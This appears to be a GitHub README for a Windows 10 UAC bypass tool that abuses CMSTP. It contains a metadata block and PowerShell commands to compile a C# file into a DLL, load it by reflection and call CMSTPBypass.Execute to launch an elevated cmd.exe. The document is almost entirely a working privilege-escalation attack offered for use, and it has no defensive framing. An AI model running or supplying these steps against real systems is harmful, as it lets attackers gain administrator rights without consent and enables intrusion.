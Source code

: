 # ALNX-1001-CMSTP
Win-UAC-Bypass ALNX-1001-CMSTP

```yaml
TargetOS: Win10
TestedOn: 2004 SO 19041.685
Language: C#/.NET 6.1
Patch: n/a
Danger: 4
Classification: ALNX-1001-CMSTP
```

**_Build_**
```powershell
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\ALNX1001-Example.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "ALNX-1001-CMSTP.dll"
```

**_Load_**
```powershell
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\ALNX-1001-CMSTP.dll"))
```

**_Run_**
```powershell
[CMSTPBypass]::Execute("C:\Windows\System32\cmd.exe")
```

